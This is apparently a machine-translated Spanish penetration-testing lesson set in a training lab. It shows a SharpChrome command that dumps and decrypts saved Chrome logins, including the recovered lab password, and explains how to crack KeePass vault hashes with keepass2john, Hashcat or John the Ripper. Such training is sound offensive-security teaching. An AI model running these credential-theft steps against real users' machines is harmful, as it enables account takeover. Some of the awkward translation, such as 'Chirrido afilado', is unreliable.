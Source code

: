 Los usuarios a menudo almacenan credenciales en sus navegadores para aplicaciones que visitan con frecuencia. Podemos usar una herramienta como[Chirrido afilado](https://github.com/GhostPack/SharpDPAPI)Para recuperar cookies e inicios de sesión guardados de Google Chrome.

  Robo de credenciales más

```powershell-session
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```

Nota: La recopilación de credenciales de los navegadores basados ​​en el cromo genera eventos adicionales que podrían registrarse e identificarse como`4983`, `4688`, y`16385`, y monitoreado por el equipo azul.

---

## Administradores de contraseñas

Muchas compañías proporcionan administradores de contraseñas a sus usuarios. Esto puede estar en forma de una aplicación de escritorio como`KeePass`, una solución basada en la nube como`1Password`o una bóveda de contraseña empresarial como`Thycotic`o`CyberArk`. Obtener acceso a un administrador de contraseñas, especialmente uno utilizado por un miembro del personal de TI o un departamento completo, puede conducir al acceso a nivel de administrador a objetivos de alto valor, como dispositivos de red, servidores, bases de datos, etc. Podemos obtener acceso a una bóveda de contraseña a través de una reutilización de contraseña o adivinar una contraseña débil/común. Algunos administradores de contraseñas como`KeePass`se almacenan localmente en el host. Si encontramos un`.kdbx`Archivo en un servidor, estación de trabajo o compartir el archivo, sabemos que estamos tratando con un`KeePass`base de datos que a menudo está protegida por solo una contraseña maestra. Si podemos descargar un`.kdbx`Archivo a nuestro host de ataque, podemos usar una herramienta como[Keepass2John](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py)Para extraer el hash de contraseña y ejecutarlo a través de una herramienta de agrietamiento de contraseña como[Hashcat](https://github.com/hashcat)o[John the Ripper](https://github.com/openwall/john).
